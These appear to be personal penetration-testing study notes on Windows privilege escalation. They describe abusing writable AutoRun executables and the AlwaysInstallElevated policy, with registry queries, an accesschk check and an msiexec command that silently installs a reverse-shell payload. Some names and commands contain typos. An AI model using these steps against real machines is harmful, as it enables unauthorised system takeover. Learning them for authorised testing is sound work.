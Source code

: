 ```yaml
---
category: Uncategorized
tags: []
---
```

### AutoRuns
- Startup apps or "AutoRuns" are configures in the registry.
- If the autoruns executable is wriable and we have the privilege to restart the system, we can place the reverse shell and restart the system to get a shell
```powershell
# Get a list of Autorun Programs
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Check for each binary using accesshck
.\accesschk -quv "C:\Program Files\program.exe"

# overwrite with reverse shell and restart the service
SHELL!
```

### AlwaysInstalledElevated
- MSI are installer files that are used to install application
- Runs with the permission of the user executing the file
- Windows allows for these installers to be run with elevated privileges.
- Two Registry requirements:
```powershell
"AllwaysInstallElevated" should be 0x1 for
# Local Machine
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
# Current User
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

# Can be queried using reg command
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AllwaysInstalledElevated

# Gerenerate payload with msi format

# install with msiexec
msiexec /quiet /qn /i reverse.exe
```